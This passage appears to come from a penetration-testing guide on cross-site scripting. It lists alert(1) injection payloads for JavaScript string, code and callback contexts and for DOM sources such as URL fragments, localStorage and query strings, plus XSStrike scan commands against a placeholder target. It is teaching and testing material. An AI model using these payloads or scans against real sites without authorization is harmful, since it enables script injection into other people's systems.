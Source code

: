 #### JavaScript Context Tests

Test when input is reflected within JavaScript code:

```javascript
# Step 1: Inside JavaScript strings
Original: var user = "USER_INPUT";
Test with: ";alert(1);//
Test with: \";alert(1);//

# Step 2: Inside JavaScript code
Original: var id = USER_INPUT;
Test with: alert(1)//
Test with: (alert(1))//

# Step 3: Inside JavaScript functions
Original: callback('USER_INPUT')
Test with: ');alert(1);//
Test with: '});alert(1);//
```

#### DOM Source Tests

Test common DOM-based XSS sources:

```javascript
# Step 1: Test URL fragments
site.com/page#<img src=x onerror=alert(1)>
site.com/page#javascript:alert(1)

# Step 2: Test localStorage/sessionStorage
> localStorage.setItem('test', '<img src=x onerror=alert(1)>');
> sessionStorage.setItem('test', '<img src=x onerror=alert(1)>');

# Step 3: Test document.write sources
site.com/page?name=<div onmouseover='alert(1)'>
site.com/page?name=</script><script>alert(1)</script>
```

### Using XSStrike

```bash
# Step 1: Basic scan
xsstrike -u "http://target.com/page?param=value"

# Step 2: Advanced scanning options
xsstrike -u "http://target.com/page?param=value" \
  --crawl          # Crawl the target
  --params         # Scan parameters
  --blind          # Test for blind XSS
  --headers        # Test headers
  --vectors        # Use custom vectors
  --skip-dom      # Skip DOM XSS scanning
  
# Step 3: Results analysis
1. Check reported vulnerabilities
2. Verify findings manually
3. Test suggested payloads
```
